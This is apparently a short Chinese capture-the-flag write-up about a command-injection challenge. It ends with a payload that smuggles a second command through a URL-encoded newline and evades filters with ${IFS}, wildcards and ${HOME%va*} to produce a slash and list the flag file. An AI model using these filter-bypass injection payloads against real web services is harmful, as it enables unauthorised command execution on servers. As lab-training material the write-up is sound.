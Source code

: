 用 `env` 查看环境变量

```
...
HOME=/var/www-data
...
```

(只记得这个, 记不太清具体值了, 不过不影响解题)

参考文章 [http://c.biancheng.net/view/1120.html](http://c.biancheng.net/view/1120.html)

截取 HOME 变量中的 `/`

```
${HOME%va*}
```

最后查看 flag

```
%0als${IFS}kyli?${HOME%va*}fla?.txt
```
